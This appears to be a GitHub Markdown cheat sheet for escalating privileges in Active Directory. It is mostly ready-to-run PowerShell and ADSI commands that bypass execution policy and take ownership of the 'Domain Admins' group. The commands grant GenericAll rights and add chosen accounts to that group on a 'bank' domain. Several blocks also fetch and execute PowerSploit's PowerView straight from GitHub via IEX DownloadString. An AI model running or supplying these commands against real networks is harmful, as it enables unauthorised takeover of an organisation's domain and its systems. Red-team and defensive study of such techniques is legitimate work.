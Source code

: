 # Power view cheat sheet

## Commands

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

------------------------------------------------------------------------------------------------------------
## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

```bash
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"

$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

## Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
## Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

## 1. Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
## 2. Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission	Why Needed
- Modify owner	
- Modify permissions	
- Write properties	


---------------------------------------------------------------------------------
### with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView


. (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
```
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

or downloade the script and run by import

powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force

- 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

- 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

- 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```